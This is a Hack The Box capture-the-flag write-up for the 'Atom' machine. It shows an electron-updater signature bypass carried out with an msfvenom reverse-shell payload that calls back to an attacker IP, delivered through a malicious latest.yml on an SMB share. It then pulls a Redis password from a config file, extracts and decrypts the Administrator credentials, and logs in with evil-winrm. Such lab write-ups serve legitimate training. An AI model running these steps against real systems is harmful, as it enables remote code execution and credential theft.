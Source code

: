 ```yaml
---
title: Atom
description: 'Malicious PDF file to remote code execution and abusing Redis to get the admin credentials'
pubDate: 2024-04-19
category: 'hackthebox'
tags: ['msfvenom', 'redis']
image: 'https://labs.hackthebox.com/storage/avatars/27ea1e1be5e83989ad5b6361773f4eaa.png'
---
```


In the app (heedv1) we can modify the update `url` in `/resources/app-update.yml`
https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html

An evil `latest.yml` file, pointing the url to the attacker, should be created with a `'` in the file name.
This will be executed on the remote machine when uploaded to the smb share in a clientX folder (see PDF).

## USER

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.76 LPORT=4444 -f exe > "r'everse.exe"
shasum -a 512 "r'everse.exe" | cut -d " " -f1 | xxd -r -p | base64
```

Set the sha512 and the size in the `latest.yml` file.


```bash
smbclient //10.10.10.237/Software_Updates/
cd client1
put latest.yml
```

## ROOT

```powershell
C:\Program Files\Redis>type redis.windows-service.conf
type redis.windows-service.conf
# Redis configuration file example
requirepass kidvscat_yes_kidvscat
```
```bash
telnet atom.htb 6379

AUTH kidvscat_yes_kidvscat
CONFIG GET *
```

```
KEYS *
[...]
pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
```

```
GET pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
```

```json
{"Id":"e8e29158d70d44b1a1ba4949d52790a0","Name":"Administrator","Initials":"","Email":"","EncryptedPassword":"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi","Role":"Admin","Inactive":false,"TimeStamp":637530169606440253}
```

Modified code of https://www.exploit-db.com/exploits/49409 to decrpyt the `EncryptedPassword`.

```bash
python3 decrypt.py
kidvscat_admin_@123
```

Login with Windows Remoting (using evil-winrm):

```bash
evil-winrm -i atom.htb -u Administrator -p kidvscat_admin_@123
```
